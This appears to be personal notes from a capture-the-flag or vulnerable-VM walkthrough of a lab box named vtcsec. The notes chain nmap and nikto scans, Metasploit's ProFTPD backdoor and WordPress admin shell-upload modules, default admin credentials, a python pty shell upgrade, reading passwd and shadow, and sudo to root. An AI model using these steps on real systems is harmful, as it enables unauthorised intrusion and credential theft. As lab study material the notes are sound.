# init
services
+ ssh
+ wordpress
+ proftpd with backdoor
things used:
+ default creds
+ python shell upgrade


## proftp backdoor
+ vuln scan with nmap:
`nmap --script=vuln -p21 10.0.2.4`

+ metasploit module `use exploit/unix/ftp/proftpd_133c_backdoor` 

> got root

## wordpress

+ scan with dirbuster or `nikto -h 10.0.2.4` reveals the hidden `/secret/` directory
+ to correctly display css & js on wordpress the host name has to be added to `/etc/hosts` 
+ for this box it is __vtcsec__
+ login into admin panel can be achieved with the default creds `admin` passwd `admin`
+ upload wp plugin that contains shell with metasploit

+ use msf `exploit/unix/webapp/wp_admin_shell_upload` and execute `shell` from meterpreter session
+ upgrad shell with `python -c "import pty;pty.spawn('/bin/sh')"` 
+ read out contents from passwd and shadow

+ trying marlinspike as name /passwd over ssh results in ssh session
+ user is in sudoers, so `sudo su -` leads to root
